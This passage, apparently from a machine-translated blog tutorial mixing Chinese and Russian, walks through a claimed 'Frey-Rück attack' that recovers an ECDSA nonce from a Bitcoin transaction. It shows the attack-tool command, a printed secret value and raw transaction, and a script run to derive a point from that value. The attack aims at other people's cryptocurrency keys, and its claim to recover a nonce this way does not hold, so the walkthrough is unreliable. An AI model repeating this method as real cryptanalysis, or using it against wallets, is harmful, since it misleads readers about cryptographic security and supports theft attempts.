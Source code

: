 

<p>我們發起了這次攻擊<code>-tool frey_ruck_attack</code>並將結果保存到一個文件中<code>SecretKey.txt</code></p>



<p>現在看到成功的結果，打開文件<code>SecretKey.txt</code></p>



<pre class="wp-block-code"><code>cat SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-43-1024x487.png" alt="實施 Frey-Rück 攻擊以獲得密鑰“K”（NONCE）" class="wp-image-965"/></figure>



<pre class="wp-block-code"><code>Deployments ECDSA:

SecretKey = 0xf99718ec8df44d695daa9eedd2b3cbe29d8a14a3fc026baeb279afe47c709de3

RawTX = 0100000001599b576edb0e0bf62082a30ff974d04080bfadb4dd9154f4e8949ea8da4c15182c0000006a4730440220061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff0220649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000</code></pre>



<p>我們看到一個銘文<code>"Deployments ECDSA"</code>，表示比特幣區塊鏈交易中存在嚴重漏洞。</p>



<p><code>SecretKey значение в формате HEX, это и есть наш секретный ключ "K" (NONCE):</code></p>



<p><code>K = 0xf99718ec8df44d695daa9eedd2b3cbe29d8a14a3fc026baeb279afe47c709de3</code></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2>讓我們用<em>Python</em>腳本檢查一下<code>point2gen.py</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p><a href="https://pypi.org/project/ECPy/" target="_blank" rel="noreferrer noopener"><strong>為此，請安裝ECPy</strong></a>橢圓曲線庫：</p>



<pre class="wp-block-code"><code>pip3 install ECPy</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-44-1024x335.png" alt="實施 Frey-Rück 攻擊以獲得密鑰“K”（NONCE）" class="wp-image-968"/></figure>



<p>現在讓我們通過指定運行腳本<code>&nbsp;секретный ключ "K" (NONCE)</code>：</p>



<pre class="wp-block-code"><code>python3 point2gen.py 0xf99718ec8df44d695daa9eedd2b3cbe29d8a14a3fc026baeb279afe47c709de3</code></pre>
